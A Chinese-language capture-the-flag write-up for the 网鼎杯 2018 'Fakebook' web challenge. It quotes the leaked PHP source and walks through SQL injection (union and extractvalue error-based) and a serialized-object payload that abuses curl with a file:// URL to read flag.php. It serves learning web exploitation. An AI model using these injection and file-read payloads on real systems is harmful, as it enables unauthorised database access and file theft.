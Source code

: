 # 网鼎杯 2018

## Fakebook

> *2021/07/14*

### 题目

题目进去之后是一个界面

![网鼎杯20181](img/网鼎杯2018/网鼎杯20181.png)

login是登录，join是注册，先扫一波后台，发现`robots.txt`

![网鼎杯20182](img/网鼎杯2018/网鼎杯20182.png)

有备份文件，下载下来

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

很明显和反序列化有关，但是暂时没发现利用点，先注册一个账号，登陆一下

![网鼎杯20183](img/网鼎杯2018/网鼎杯20183.png)

点击`1`，发现显示出来百度的页面信息

![网鼎杯20184](img/网鼎杯2018/网鼎杯20184.png)

结合上面的代码，可以想到是`SSRF`的问题，因为源代码中限制了协议类型，无法绕过，需要借助**反序列化**，将payload插入，读出`flag`，但是目前还是没有利用点，试一下展示页面的`no`参数，发现存在**SQL注入**，首先采用联合查询，`no=-1/**/union/**/select/**/1,2,3,4`，查看页面信息

![网鼎杯20185](img/网鼎杯2018/网鼎杯20185.png)

发现路径为`/var/www/html`，继续采用**报错注入**，可以爆出数据库，表，列名，可以发现其中`data`字段就是存储反序列化数据的字段

![网鼎杯20186](img/网鼎杯2018/网鼎杯20186.png)

然后采用联合查询的方法，将序列化数据导入即可

### payload

```
view.php?no=1^extractvalue(1,concat('~',database()))%23
// [*] query error! (XPATH syntax error: '~fakebook')
view.php?no=1^extractvalue(1,concat('~',  (select(group_concat(table_name))from(information_schema.tables)where((table_schema)=('fakebook')))))%23
// [*] query error! (XPATH syntax error: '~users')
view.php?no=1^extractvalue(1,concat('~',  (select(group_concat(column_name))from(information_schema.columns)where((table_name)=('users')))))%23
// [*] query error! (XPATH syntax error: '~no,username,passwd,data,USER,CU')
no=-1/**/union/**/select 9,5,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
// return flag
```